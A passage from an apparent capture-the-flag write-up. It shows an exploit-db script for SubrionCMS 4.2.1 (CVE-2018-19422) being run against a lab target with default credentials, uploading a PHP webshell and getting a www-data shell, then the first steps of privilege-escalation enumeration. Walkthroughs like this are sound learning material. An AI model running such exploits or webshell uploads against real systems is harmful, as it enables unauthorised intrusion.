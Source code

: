 10) From inspecting the exploit source code ([available here](https://www.exploit-db.com/exploits/49876)) we see that the exploit actually does a lot of the heavy lifting for us including uploading a reverse shell and catching it locally... Let's try running it:

> I spent a long time here because the exploit wouldn't be able to authenticate - even though I could manually via the web UI... the problem was: I was giving it url `http://target/panel`, and it needed a trailing slash e.g. `http://target/panel/`...

```
???(kali?kali)-[~/Desktop]
??$ python /usr/share/exploitdb/exploits/php/webapps/49876.py --url=http://target/panel/ --user=admin --passw=admin
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://target/panel/
[+] Success!
[+] Got CSRF token: LImitLsPH5nNMNQ8rAMS1WJjP0EO0bT2uoEnPaJJ
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: vbcokywhgxcdfkt

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://target/panel/uploads/vbcokywhgxcdfkt.phar 

$ whoami
www-data
```

We have a shell! Now we need a root shell...

## Privilege Escalation

11) First thing to do is enumerate system users... i.e. `cat /etc/passwd`.

```
(... omitted for brevity)

root:x:0:0:root:/root:/bin/bash
coaran:x:1000:1000::/home/coaran:/bin/bash
```
i
Lots of users but 2 of them have shells: root and coaran.

12) Next thing to do is run `getcap -r / 2>/dev/null` if that gets us nowhere, then we try LinPEAS...

```
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```
